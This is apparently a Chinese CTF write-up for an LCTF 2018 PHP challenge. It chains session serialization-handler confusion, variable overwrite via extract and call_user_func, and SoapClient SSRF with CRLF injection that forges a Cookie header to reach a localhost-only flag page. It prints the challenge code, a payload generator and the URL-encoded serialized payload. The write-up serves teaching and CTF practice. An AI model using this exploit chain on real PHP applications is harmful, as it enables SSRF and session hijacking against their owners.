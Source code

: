 @[toc]

##  前言

这个题主要综合了很多知识点，特别综合

考点：

1. session反序列化
2. 原生类SoapClient的SSRF
3. 变量覆盖
4. CRLF

##  WP

首页代码

```php
<?php
highlight_file(__FILE__);
$b = 'implode';
call_user_func($_GET['f'], $_POST);
session_start();
if (isset($_GET['name'])) {
    $_SESSION['name'] = $_GET['name'];
}
var_dump($_SESSION);
$a = array(reset($_SESSION), 'welcome_to_the_lctf2018');
call_user_func($b, $a);
?>
```

看到`session_start()`，想到了session反序列化

看到wp后，知道有个flag.php可以直接访问

```php
<?php
session_start(); 
echo 'only localhost can get flag!'; 
$flag = 'LCTF{*************************}'; if($_SERVER["REMOTE_ADDR"]==="127.0.0.1"){ 
    $_SESSION['flag'] = $flag; 
} 
```

看到127.0.0.1,想到了要利用SSRF，可以利用原生类SoapClient来实现SSRF

###  call_user_func函数

```
它会把第一个参数作为回调函数，其余参数当作为回调函数的参数。

假如我们第一参数传入的是数组，会把数组的第一个值当作类名，第二个值当作方法进行回调。

call_user_func 函数不止可以调用自定义函数、类，也可以调用php内置函数、内置类 如extract
```

###  php中session反序列化机制

php中的session中的内容并不是放在内存中的，而是以文件的方式来存储的，存储方式就是由配置项session.save_handler来进行确定的，默认是以文件的方式存储。
存储的文件是以sess_sessionid来进行命名的，文件的内容就是session值的序列话之后的内容。
在php.ini中存在三项配置项：

```
session.save_path=""   --设置session的存储路径
session.save_handler="" --设定用户自定义存储函数，如果想使用PHP内置会话存储机制之外的可以使用本函数(数据库等方式)
session.serialize_handler   string --定义用来序列化/反序列化的处理器名字。默认是php(5.5.4后改为php_serialize)
```

**session.serialize_handler存在以下几种:**

```
php_binary 键名的长度对应的ascii字符+键名+经过serialize()函数序列化后的值
php 键名+竖线（|）+经过serialize()函数处理过的值
php_serialize 经过serialize()函数处理过的值，会将键名和值当作一个数组序列化
```

在PHP中默认使用的是**PHP引擎**(5.5.4后改为php_serialize)，如果要修改为其他的引擎，只需要添加代码ini_set(‘session.serialize_handler’, ‘需要设置的引擎’);。
当序列化的引擎和反序列化的引擎不一致时，就可以利用引擎之间的差异产生序列化注入漏洞。



补充一点：cookie中PHPSESSID会作为服务器session的文件名（sess_....）,session中存在的内容就是序列化的内容，格式就是上面几种处理器决定的，存储路径就是session.save_path来决定的。

### 构造SSRF之SoapClient类

SoapClient是php内置的类，当__call方法被触发后（调用不存在方法），它可以发送HTTP和HTTPS请求。该类的构造函数如下：

```
public SoapClient :: SoapClient （mixed $wsdl [，array $options ]）
```

第一个参数是用来指明是否是wsdl模式。

第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则**必须设置location和uri选项**，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。



利用点就是，可以实现SSRF(127.0.0.1),一般都可以配合`CRLF`来伪造报头。

###  CRLF Injection漏洞

CRLF是”回车+换行”（\r\n）的简称。在HTTP协议中，HTTPHeader与HTTPBody是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP内容并显示出来。所以，一旦我们能够控制HTTP消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLFInjection又叫HTTPResponseSplitting，简称HRS。
我们要让服务器去访问flag.php，且把flag存放在session里，那么我们就一定需要携带一个cookie去访问它。但是SoapClient这个类，好像没有指定cookie的接口，所以，我们就可以在user_agent里面，加上一个\r\n，然后再加上一个cookie，就达到了我们的目的。

###  解题步骤

首先构造反序列化

```php
<?php
$a = new SoapClient(null,
    array(
        'user_agent' => "z3eyond\r\nCookie:PHPSESSID=123456789",
        'uri' => 'z3eyond',
        'location' => 'http://127.0.0.1/flag.php'
    )
);
$b = serialize($a);
#$c = unserialize($b);
#$c->not_a_function();//调用不存在的方法，让SoapClient调用__call
echo urlencode($b);
//$a->hello();
```

得到

```
O%3A10%3A%22SoapClient%22%3A5%3A%7Bs%3A3%3A%22uri%22%3Bs%3A7%3A%22z3eyond%22%3Bs%3A8%3A%22location%22%3Bs%3A25%3A%22http%3A%2F%2F127.0.0.1%2Fflag.php%22%3Bs%3A15%3A%22_stream_context%22%3Bi%3A0%3Bs%3A11%3A%22_user_agent%22%3Bs%3A35%3A%22z3eyond%0D%0ACookie%3APHPSESSID%3D123456789%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D
```

**进行第一步的传值**

![img](https://img-blog.csdnimg.cn/6997cdfbd10d4a599ff72f55679b7c3d.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)

在这一步，

1. 通过`call_user_func`将序列化引擎从`php`改变为`php_serialize`。其中利用的是session_start,一般是利用ini.set,来修改处理器，但是POST传入的参数是数组，ini.set不能处理数组，所以使用session_start来修改。

   ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210306162813230.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3JmcmRlcg==,size_16,color_FFFFFF,t_70)

2. 将SoapClient的反序列化储存在session中，并在前面，加一个“|”符号,此时session会以php_serialize的规则储存：a:1:{s:4:“name”;s:199:"|xxx…"}

**进行第二步的传值**

![img](https://img-blog.csdnimg.cn/594cd563b8a24f6682084425aa9eb383.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)

在这一步中，

1. call_user_func(\$\_GET[‘f’], $_POST); 将b变量，用[extract](https://www.php.net/manual/zh/function.extract.php)函数，进行覆盖，覆盖为call_user_func

2. session_start(), 此时的序列化引擎为php，此函数会按照php的方法，把我们刚才传入的session，进行反序列化。

   **这儿补充一下：之所以能利用session反序列化，就是因为序列化引擎和反序列化引擎不同。**

3. \$a=array(reset(\$_SESSION), ‘welcome_to_the_lctf2018’); 

\$_SESSION中的值与“welcome_to_the_lctf2018”和并为一个数组

4. call_user_func($b, $a); 因为$b变量已经被我们覆盖成了call_user_func，那么此时的程序，就变成了call_user_func(call_user_func,array($_session,‘welcome_to_the_lctf2018’));

5. `array($_SESSION,'welcome_to_the_LCTF2018')`作为参数，调用到第二个`call_user_func`，`call_user_func`当传入参数是数组中，第一个参数为类名，第二个是方法,`welcome_to_the_lctf2018`不是方法，所以触发了SoapClient

**进行第三步传值**

![img](https://img-blog.csdnimg.cn/1005937776804bf3a2d75bdea35d9582.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)

在这一步，触发了SoapClient，就是访问127.0.0.1/flag.php,伪造了cookie，PHPSESSID=123456789，将flag的内容存储在session中

然后在index.php中，再次用PHPSESSID=123456789,就可以直接获取session内容(有flag)，var_dump($_SESSION)，就可以读取flag。



###  总结

该题思路就是：先将`SoapClient`的序列化内容存储在`session`中，利用`call_user_func`和`extract`，将b变量的值覆盖了。在最后的`call_user_func($b, $a);`访问不可访问的方法，就可以触发SoapClient,发送http请求进行SSRF，将flag的变量存储在session中，再次通过cookie的`PHPSESSID`获取带有flag的session内容。